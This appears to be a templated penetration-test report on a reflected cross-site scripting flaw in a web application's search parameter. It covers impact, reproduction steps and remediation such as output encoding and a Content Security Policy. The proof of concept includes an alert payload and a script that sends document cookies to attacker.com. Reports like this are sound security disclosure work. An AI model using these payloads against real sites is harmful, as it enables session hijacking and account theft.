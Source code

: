 # Penetration Testing Writeup: Cross-Site Scripting (XSS) Vulnerability

## Executive Summary

During a recent penetration test conducted on [Target Application], a critical
Cross-Site Scripting (XSS) vulnerability was identified in the application's
user input handling mechanism. This vulnerability allows an attacker to inject
malicious scripts into web pages viewed by other users, potentially leading to
session hijacking, data theft, or defacement of the website. This report details
the vulnerability, its impact, proof of concept, and recommended remediation
steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Reflected
- **Severity**: High
- **Affected Component**: Search functionality on the main page
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/search?query=[input]`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 15, 2025

### Description

The search functionality on the main page of [Target Application] does not
properly sanitize user inputs in the query parameter. When a user submits a
search query, the application reflects the input directly into the HTML response
without encoding or validation. This allows an attacker to craft a malicious URL
containing JavaScript code that executes in the context of the victim's browser.

### Impact

- **Session Hijacking**: An attacker can steal session cookies, allowing
  unauthorized access to user accounts.
- **Phishing Attacks**: Malicious scripts can display fake login forms to
  capture user credentials.
- **Data Theft**: Sensitive information displayed on the page can be exfiltrated
  to an attacker-controlled server.
- **Website Defacement**: The attacker can manipulate the page's content,
  damaging the application's reputation.

### Proof of Concept

1. Navigate to the search page:
   `https://[target-application]/search?query=<script>alert('XSS Vulnerability');</script>`
2. Observe that an alert box with the message "XSS Vulnerability" appears in the
   browser.
3. A more malicious payload could be used, such as:
   ```
   https://[target-application]/search?query=<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>
   ```
   This payload sends the user's session cookie to an attacker-controlled
   server.

### Steps to Reproduce

1. Open a web browser and navigate to `https://[target-application]/search`.
2. In the search bar, enter the following payload:
   `<script>alert('XSS Vulnerability');</script>`.
3. Submit the search query.
4. Verify that the JavaScript alert is triggered, confirming the vulnerability.

## Remediation Recommendations

To mitigate this vulnerability, the following actions are recommended:

1. **Input Validation and Sanitization**:
   - Implement strict input validation to ensure only expected characters are
     allowed in the search query (e.g., alphanumeric characters and specific
     symbols).
   - Use a server-side library like OWASP's AntiSamy or a similar HTML
     sanitization tool to filter out malicious code.
2. **Output Encoding**:
   - Encode all user inputs when rendering them in the HTML response using
     context-appropriate encoding (e.g., HTML entity encoding for HTML content,
     JavaScript encoding for script contexts).
   - Example: Convert `<` to `&lt;` and `>` to `&gt;` before rendering.
3. **Content Security Policy (CSP)**:
   - Implement a strict CSP header to prevent the execution of inline scripts
     and restrict script sources to trusted domains.
   - Example CSP header:
     `Content-Security-Policy: script-src 'self'; object-src 'none';`
4. **Secure Development Training**:
   - Train developers on secure coding practices, emphasizing the risks of XSS
     and the importance of input validation and output encoding.
5. **Regular Security Testing**:
   - Conduct periodic penetration testing and code reviews to identify and
     address similar vulnerabilities.

## Conclusion

The identified XSS vulnerability poses a significant risk to the security and
integrity of [Target Application]. Immediate action is required to implement the
recommended remediation steps. By addressing this issue, the application can
protect its users from potential attacks and maintain trust in its security
posture.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html
